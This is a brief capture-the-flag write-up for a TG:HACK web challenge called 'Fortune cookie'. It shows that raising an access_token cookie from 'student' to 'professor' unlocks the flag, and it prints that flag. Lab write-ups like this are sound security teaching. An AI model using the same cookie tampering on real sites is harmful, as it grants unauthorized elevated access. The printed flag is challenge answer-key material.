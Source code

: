 ```yaml
---
layout: menu
title: "Fortune cookie (web 50)"
---
```


![Fortune cookie (50 pts)](./screenshots/Fortune_cookie.png)

---
## CHALLENGE INFO
- __CHALLENGE LINK__: https://fortune.tghack.no/
- __ASSUMED OBJECTIVE__: Alter the site's __*cookies*__ to get the flag

---

## 1. Check cookies 

- From HTTP Response Headers:
  ```http
  ...
  Set-Cookie: access_token=divination:student
  ...
  ```

---

## 2. Change the value of __access_token__

- HTTP Request Headers:
  ```http
  ...
  Cookie: access_token=divination:professor
  ...
  ```

- Changing the value to __divination:professor__ returns:
  ```html
  OMG! You're so fortunate! Take this flag: TG19{what_a_fortune_my_lucky_one}
  ```

---

## FLAG : __TG19{what_a_fortune_my_lucky_one}__

